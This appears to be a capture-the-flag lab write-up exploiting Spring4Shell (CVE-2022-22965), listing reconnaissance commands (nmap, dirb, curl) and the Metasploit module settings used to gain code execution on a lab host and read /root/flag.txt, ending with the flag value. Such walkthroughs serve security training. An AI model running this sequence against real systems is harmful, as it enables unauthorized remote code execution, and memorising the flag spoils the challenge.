 # Vulnerability Exploitation Report: CVE-2022-22965

## Vulnerability Overview
**CVE ID**: CVE-2022-22965  
**CVSS Score**: 9.8 (Critical)  
**Description**: The Spring4Shell vulnerability affects Spring Framework applications, allowing unauthenticated remote code execution (RCE) via data binding. This critical flaw enables attackers to execute arbitrary code on the target system by manipulating request parameters.

## Objective
Exploit the CVE-2022-22965 vulnerability on a target Spring Framework application to gain unauthorized access and retrieve a flag file (`/root/flag.txt`) as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.2
- **Target Port**: 8080 (assumed to be the Spring application port)
- **Attack Machine IP**: 192.168.0.5
- **Objective**: Retrieve the contents of `/root/flag.txt`

## Exploitation Steps

### Step 1: Network Discovery
Perform a ping scan to identify active hosts in the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Enumerate services on the target host (192.168.5.2) to confirm the presence of the Spring application.

```
nmap -sV 192.168.5.2
```

### Step 3: Verify Application Accessibility
Confirm the Spring application is accessible by sending an HTTP request to port 8080.

```
curl 192.168.5.2:8080
```

### Step 4: Directory Enumeration
Scan the target web application for directories and endpoints using `dirb`.

```
dirb http://192.168.5.2:8080
```

### Step 5: Access Specific Endpoint
Check the `/about` endpoint to gather additional information about the application.

```
curl http://192.168.5.2:8080/about
```

### Step 6: Launch Metasploit
Start the Metasploit Framework to access exploit modules for the Spring Framework.

```
msfconsole
```

### Step 7: Search for Spring Exploit
Search Metasploit for exploit modules related to the Spring Framework, specifically targeting version 5.3.17.

```
search spring 5.3.17
```

### Step 8: Select the Exploit Module
Choose the Metasploit module for the Spring4Shell RCE vulnerability (CVE-2022-22965).

```
use exploit/multi/http/spring_framework_rce_spring4shell
```

### Step 9: Review Exploit Details
Display information about the selected module to understand its options and requirements.

```
info
```

### Step 10: Configure the Exploit
Set the target host to the Spring application’s IP address.

```
set RHOSTS 192.168.5.2
```

### Step 11: Set Target URI
Configure the target URI to the root path of the application.

```
set TARGETURI /
```

### Step 12: Execute the Exploit
Run the exploit to achieve remote code execution on the target system.

```
exploit
```

### Step 13: Navigate to Root Directory
Navigate to the `/root` directory to locate the flag file.

```
cd /root
```

### Step 14: List Directory Contents
List the contents of the `/root` directory to identify the flag file.

```
ls
```

### Step 15: Retrieve the Flag
Read the contents of the `flag.txt` file to obtain the flag.

```
cat flag.txt
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: uFMRQLLW8FujtApt